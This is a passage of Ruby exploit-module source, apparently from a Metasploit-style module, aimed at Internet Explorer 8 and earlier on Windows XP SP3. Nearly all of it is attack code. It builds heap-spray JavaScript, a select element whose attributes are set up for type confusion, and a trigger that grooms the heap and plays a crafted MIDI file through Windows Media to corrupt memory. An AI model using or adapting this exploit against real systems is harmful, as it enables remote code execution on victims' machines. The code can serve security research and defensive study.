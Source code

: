 ```ruby

		heap_obj.gc();
		for (var i=0; i < 600; i++) {
			heap_obj.alloc(block);
		}

		JS

		spray = heaplib(spray, {:noobfu => true})
		return spray
	end

	# Build the JavaScript string for the attributes
	def build_element(element_name, my_target)
		dst = Rex::Text.to_unescape([my_target['DispatchDst']].pack("V"))
		element = ''

		if my_target.name =~ /IE 8/
			max   = 63   # Number of attributes for IE 8
			index = 1    # Where we want to confuse the type
		else
			max   = 55   # Number of attributes for before IE 8
			index = 0    # Where we want to confuse the type
		end

		element << "var #{element_name} = document.createElement(\"select\")" + "\n"

		# Build attributes
		0.upto(max) do |i|
			obj = (i==index) ? "unescape(\"#{dst}\")" : "alert"
			element << "#{element_name}.w#{i.to_s} = #{obj}" + "\n"
		end

		return element
	end

	# Feng Shui and triggering Steps:
	# 1. Run the garbage collector before allocations
	# 2. Defragment the heap and alloc CImplAry objects in one step (objects size are IE version dependent)
	# 3. Make holes
	# 4. Let windows media play the crafted midi file and corrupt the heap
	# 5. Force the using of the confused tagVARIANT.
	def build_trigger(my_target)

		if my_target.name == 'IE 8 on Windows XP SP3'

			# Redoing the feng shui if fails makes it reliable
			js_trigger = <<-JSTRIGGER
			function trigger(){
				var k = 999;
				while (k > 0) {
					if (typeof(clones[k].w1) == "string") {
					} else {
						clones[k].w1('come on!');
					}
					k = k - 2;
				}
				feng_shui();
				document.audio.Play();
			}
			JSTRIGGER

```